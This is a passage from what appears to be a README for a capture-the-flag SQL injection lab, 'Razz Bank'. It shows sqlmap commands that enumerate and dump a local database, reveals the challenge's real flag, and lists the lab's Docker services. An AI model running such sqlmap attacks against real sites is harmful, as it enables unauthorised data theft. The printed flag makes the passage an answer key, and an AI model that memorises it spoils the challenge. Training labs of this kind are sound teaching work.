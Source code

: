 
#### **SQLMap Automation**
```bash
# Database enumeration
sqlmap -u "http://localhost:5000/login" \
       --data="username=admin&password=admin" \
       --dbs --batch

# Table discovery
sqlmap -u "http://localhost:5000/login" \
       --data="username=admin&password=admin" \
       -D razz_bank --tables --batch

# Flag extraction
sqlmap -u "http://localhost:5000/login" \
       --data="username=admin&password=admin" \
       -D razz_bank -T system_flags --dump --batch
```

### **🎯 Phase 4: Flag Validation**

#### **Success Indicators**
- ✅ Real flag extracted: `RAZZ{y0U_H@v3_f()UNd_$QL_!NJ3CT10N}`
- ✅ Understanding of union-based SQL injection
- ✅ Distinction between real and decoy flags
- ✅ Database schema comprehension

---

## 🐳 **DOCKER DEPLOYMENT**

### **🏗️ Service Architecture**

| Service | Port | Purpose | Health Check |
|---------|------|---------|--------------|
| **razz-bank-app** | 5000 | Main application | `/health` |
| **postgres** | 5432 | Database | PostgreSQL ping |
| **redis** | 6379 | Session storage | Redis ping |
| **nginx** | 80 | Reverse proxy | Status endpoint |
| **adminer** | 8080 | Database admin | `/` |
| **grafana** | 3000 | Monitoring | `/api/health` |
| **prometheus** | 9090 | Metrics | `/metrics` |
| **haproxy** | 8081 | Load balancer | `/stats` |

### **🔧 Configuration Profiles**
